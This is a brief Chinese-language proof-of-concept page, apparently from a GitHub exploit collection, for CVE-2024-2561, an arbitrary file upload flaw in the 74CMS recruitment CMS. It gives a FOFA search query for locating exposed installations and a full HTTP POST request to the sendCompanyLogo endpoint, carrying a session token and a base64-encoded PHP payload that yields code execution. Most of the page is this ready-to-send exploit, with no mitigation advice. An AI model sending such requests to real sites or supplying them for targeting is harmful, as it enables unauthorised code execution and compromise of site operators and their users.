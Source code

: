 # 74CMS存在任意文件上传漏洞(CVE-2024-2561)

74CMS存在任意文件上传漏洞(CVE-2024-2561)，漏洞地址存在与sendCompanyLogo文件中/controller/company/Index.php#sendCompanyLogo的组件Company Logo Handler。经修改后的参数:imgBase64恶意代码输入可导致rce。

## fofa

```javascript
app="骑士-74CMS"
```

## poc

```javascript
POST /v1_0/company/index/sendCompanyLogo HTTP/1.1
Host: localhost:7888
Cache-Control: max-age=0
sec-ch-ua: "Chromium";v="122", "Not(A:Brand";v="24", "Google Chrome";v="122"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "macOS"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/122.0.0.0 Safari/537.36
user-token: eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJpYXQiOjE3MDk4MTY4MDcsImV4cCI6MTc0MTAyODgwNywiaW5mbyI6eyJ1aWQiOjEsInV0eXBlIjoxLCJtb2JpbGUiOiIxNTIxMjM0NTY3OCJ9fQ.8MYJ6e8qOGCR6s3pTIlFLsWFgAhC4f-F8XH_VNaC5BQ
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Cookie: qscms_visitor=%7B%22utype%22%3A1%2C%22mobile%22%3A%2215212345678%22%2C%22token%22%3A%22eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJpYXQiOjE3MDk4MTY4MDcsImV4cCI6MTc0MTAyODgwNywiaW5mbyI6eyJ1aWQiOjEsInV0eXBlIjoxLCJtb2JpbGUiOiIxNTIxMjM0NTY3OCJ9fQ.8MYJ6e8qOGCR6s3pTIlFLsWFgAhC4f-F8XH_VNaC5BQ%22%7D
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 56

imgBase64=data:image/php;base64,PD9waHAgcGhwaW5mbygpOw==
```

![image-20250206164242391](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202502061642460.png)



## 漏洞来源

- https://gist.github.com/Southseast/9f5284d8ee0f6d91e72eef73b285512a
